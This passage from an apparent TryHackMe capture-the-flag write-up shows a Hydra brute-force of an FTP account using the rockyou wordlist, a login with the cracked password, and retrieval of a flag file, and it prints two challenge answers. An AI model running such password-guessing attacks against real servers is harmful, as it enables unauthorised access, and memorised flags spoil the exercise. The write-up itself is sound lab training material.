 - For `User: quinn` `Password: andrea`:

```bash
root@ip-10-10-58-76:~# hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.146.130 -s 10021
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra starting at 2025-05-15 18:42:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries
[DATA] attacking ftp://10.10.146.130:10021/
[10021][ftp] host: 10.10.146.130   login: quinn   password: andrea
1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2025-05-15 18:42:38
```
Logging into quinn's FTP account revealed a hidden file containing the flag:

```bash
root@ip-10-10-58-76:~# ftp 10.10.146.130 10021
Connected to 10.10.146.130.
220 (vsFTPd 3.0.5)
Name (10.10.146.130:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (21.4892 kB/s)
ftp> quit
221 Goodbye.
```

The downloaded flag file was then read from the local system:

```bash
root@ip-10-10-58-76:~# cat ftp_flag.txt
THM{321452667098}
```

Browsing to http://10.10.146.130:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

Answer: THM{f7443f99}

Initial reconnaissance commands executed prior to solving the challenge:
